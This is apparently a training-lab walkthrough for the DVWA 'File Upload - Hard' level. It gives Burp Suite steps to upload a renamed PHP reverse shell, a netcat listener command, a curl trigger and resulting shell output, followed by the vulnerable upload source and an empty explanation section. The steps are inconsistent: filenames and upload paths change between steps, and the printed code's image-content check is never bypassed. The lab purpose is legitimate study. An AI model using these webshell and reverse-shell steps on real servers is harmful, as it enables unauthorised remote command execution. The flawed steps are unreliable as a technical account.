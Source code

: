 # File Upload - Hard

---

## Attack Steps

1. Open Burp Suite

    - Start a **temporary project**

2. Navigate to the proxy tab
    - Shortcut `CTRL + SHIFT + P`

3. Ensure the intercept is OFF 
    - Open the chromium browser

4. Navigate to DVWA and set difficulty to hard 

    - http://<ip address>/dvwa
    - Login
    ```bash 
    admin
    password
    ```
    - Navigate to DVWA Security on the left menu 
    - Set security level to hard

5. Navigate to the target webpage 
    - http://<ip address>/dvwa/vulnerabilites/upload

6. Make a copy of `php_reverse_shell.php` and save as a jpg file:

    - `CTRL + ATL + T` to open a terminal 

    ```bash 
    sudo cp /usr/share/webshells/php/php_reverse_shell.php php_reverse_shell.jpg
    ```

7. Prepare for upload:
    
    - Return to target page
    - Browse for `php_reverse_shell.jpg`
    - Select file 
    - DO NOT UPLOAD 

8. Turn intercept on 

    - On Burp Suite turn the intercept on to catch request

9. Upload file:

    - Request will be caught by Burp

10. Edit request in Burp Proxy: 
    
    - Scroll down to filename
    - Change from
    ```bash 
    filename="php_reverse_shell.jpg"
    ```
    - to:
    ```bash 
    filename="php_reverse_shell.php.jpg"
    ```
    
11. Forward the request

    - Turn intercept off

12. On the kali terminal start a listener 

    ```bash 
    nc -lvnp 1234 # If you changed the port number in the webshell file then change it here 
    # l - listener mode
    # v - verbose output 
    # n - skip DNS resolution (faster) 
    # p <port number> - Listen on port number assigned # Change to your port number
    ```

13. Navigate to the uploaded webshell 

    - The uploaded file was saved to http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php.jpg

    - Alternatively run `curl -s http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php.jpg` in another terminal 

14. On the netcat listener look a connection
    
    - The should be output similar to the following 
    ```bash 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    sh: no job control in this shell 
    sh-3.2$ 
    ```

    - We can now run commands on the DVWA machine

## Vulnerable Code Analysis


### File 
`/var/www/dvwa/vulnerabilities/upload/source/hard`

#### Key Vulnerability Points:

```php 
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
	// Where are we going to be writing to?
	$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
	$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

	// File information
	$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
	$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
	$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
	$uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

	// Is it an image?
	if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
		( $uploaded_size < 100000 ) &&
		getimagesize( $uploaded_tmp ) ) {

		// Can we move the file to the upload folder?
		if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
			// No
			$html .= '<pre>Your image was not uploaded.</pre>';
		}
		else {
			// Yes!
			$html .= "<pre>{$target_path} succesfully uploaded!</pre>";
		}
	}
	else {
		// Invalid file
		$html .= '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
	}
}

?>
```

### Explanation

